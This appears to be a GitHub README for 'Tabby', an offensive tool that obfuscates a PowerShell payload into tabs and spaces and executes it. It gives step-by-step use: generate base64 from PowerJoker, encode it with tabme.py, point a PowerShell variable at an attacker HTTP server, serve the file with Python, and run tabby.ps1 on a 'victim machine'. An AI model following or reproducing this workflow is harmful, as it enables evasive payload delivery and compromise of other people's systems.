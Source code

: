 <img src="https://github.com/Kryp7os/Tabby/assets/98974230/a2e9a43a-452d-4e61-b730-5968c0ddd767" width="300" />

# Tabby

Tool that converts a payload into tabs and spaces and executes

## Usage

### Generate the Payload:
1. Launch PowerJoker(https://github.com/Adkali/PowerJoker) and copy the base64 output.

2. Launch tabme.py using:
`python3 tabme.py`

### Preparing the Payload
1. Paste the base64 encoding in `tabme.py`

2. Specify the outfile i.e `tabby.txt`

3. Add your http server to the powershell script:
`$tabsSpacesURL = "http://192.168.x.x/tabby.txt"`

### Stage your Http server
`python3 -m http.server 80`

### Execute ps1 file on victim machine

`.\tabby.ps1`
